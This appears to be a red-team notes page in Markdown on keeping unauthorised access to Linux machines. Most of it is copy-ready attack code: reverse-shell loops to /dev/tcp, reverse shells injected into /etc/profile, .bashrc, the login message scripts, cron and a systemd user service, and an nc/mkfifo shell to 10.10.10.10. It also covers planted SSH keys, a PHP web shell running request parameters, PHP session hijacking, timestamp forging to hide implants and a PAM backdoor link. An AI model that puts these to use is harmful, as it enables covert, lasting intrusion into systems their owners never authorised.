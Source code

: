 # Linux Persistence

For general overview of persistence that OS neutral: [[Persistence]].
![](linux-persistence-map.png)
[Credit: pberda.github/io](https://pberba.github.io/security/2021/11/22/linux-threat-hunting-for-persistence-sysmon-auditd-webshell/)
#### Nohup

Use `nohup` - no hang up in a script to make call back.  
```bash
#!/bin/bash
while true; do
    nohup bash -i >& /dev/tcp/$ip/443 0>&1;
    sleep 10;
done
```


#### Ippsec Timestamp checking

Find all timestamps as [[Linux-Blueteam]], with `touch` `cp` the persistence mechanicism with `touch`
```bash
ls -lt --time-style=full-iso# Displys all timestamps
find / -type f -printf "%T+ %p\n" | grep -v 00000000
touch original_lib_file -r persistence_file
```

#### .rc Aliasing

```bash
# If have sudo or permission to propagate to all usersasdasd
echo "alias PEST='($revershell_goes_here)'" | sudo tee -a /etc/profile
# consider .zshrc or dash.rc
echo "alias PEST='($revershell_goes_here)'" | sudo tee -a /home/$USER/.bashrc 
```

#### MOTD you got pwned

```bash
# When anyone logs in 
echo "$reversehell_goes_here" | sudo tee -a /etc/update-motd.d/00-header
```

#### SSH Keys
It's not very hidden, easy to remove or detect. - https://attack.mitre.org/techniques/T1098/
```bash
# Generate on host; provide some fields
ssh-keygen  
# target machine:
# cat public key on host and echo it into .ssh/authorized_keys
mkdir .ssh
echo "ssh-rsa $base64fromkey" > .ssh/authorized_keys
chmod 600 id_rsa
```

#### php
1. in web root `/var/www/html`
2. `touch shell.php` and add the below:
2. Or add within a file of this directory
1. Change the 'cmd' parameter to something that LESS like to be called 
```php
<?php
    if (isset($_REQUEST['cmd'])) {
        echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>";
    }
?>
```

#### stealing php session
```bash
/var/lib/php/sessions # defauilt locations
sess_<SESSION_ID> # set your PHPSESSID cookie to hijack
```
Session files and cookie name are configurable in php.ini:
```php
session.save_path
session.name
```

#### Cron

Some reference mentioned need for newlines, I have found that it is not always the case
```bash
# newlines required
CT="\n1 * * * *   root    ./dev/shm/met.elf\n"
printf "$CT" | crontab -
```

As a one-liner (probably newlines do not matter)
```bash
root> echo "* * * * * root bash -c 'bash -i >& /dev/tcp/$ip/$port 0>&1'" | tee - a/etc/crontab
```

Serve shell script, for example:
```bash
#!/bin/bash
bash -i >& /dev/tcp/ip/port 0>&1
```
.bashrc
```bash
echo 'bash -i >& /dev/tcp/$ip/$port 0>&1' >> ~/.bashrc
```
OR `pam_unix.so` [pam-backdoor](https://github.com/zephrax/linux-pam-backdoor)

```bash
# Variable just for easy reading.
REVSHELL="rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 1337 >/tmp/f"
(crontab -l ; echo "@reboot sleep 200 && $REVSHELL")|crontab 2> /dev/null
```

#### `systemd`

[[Systemd]] is sytemd'ees-nuts for many *potential* reasons (that I probably cannot verify and ) it is pretty controversial in number of subgroups, distributions, etc. [[Sytemd-Controversy]], like any to neutrality and to aid in not have to remember and lookup why X ?(maybe)=Y see that page

[From this article Systemd persistence](https://medium.com/@alexeypetrenko/systemd-user-level-persistence-25eb562d2ea8)
```bash
touch ~/.config/system/root/persistence.service
# Make p.service 
[Unit]  
Description=Just a reverse shell

[Service]  
ExecStart=/usr/bin/bash -c 'bash -i >& /dev/tcp/10.10.10.10/8008 0>&1'  
Restart=always  
RestartSec=60

[Install]  
WantedBy=default.target
```

Enable and start service
```bash
systemctl --user enable persistence.service
systemctl --user start persistence.service 
# systemd --user only started on login
# Configure with root run:
loginctl enable-linger
# Check if already set:
/var/lib/systemd/linger/$username_is_here_if_enabled
```


## References

[Ippsec Rocks, youtube video](https://www.youtube.com//watch?v=yaV09XCDDqI&t=390s)
[9-ways-to-backdoor-a-linux-box](https://airman604.medium.com/9-ways-to-backdoor-a-linux-box-f5f83bae5a3c) -  Backdoors
[creating-backdoor-in-pam](http://0x90909090.blogspot.com/2016/06/creating-backdoor-in-pam-in-5-line-of.html) - pam unix backdoors
[linuxbackdoors](https://tryhackme.com/room/linuxbackdoors) - Backdoors
[PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology and Resources/Linux - Persistence.md)
[Mitre Persistence](https://attack.mitre.org/techniques/T1098)
[Alexey Petrenko's Systemd persistence](https://medium.com/@alexeypetrenko/systemd-user-level-persistence-25eb562d2ea8)
[pberda.github/io Article and Persistence Map](https://pberba.github.io/security/2021/11/22/linux-threat-hunting-for-persistence-sysmon-auditd-webshell/)
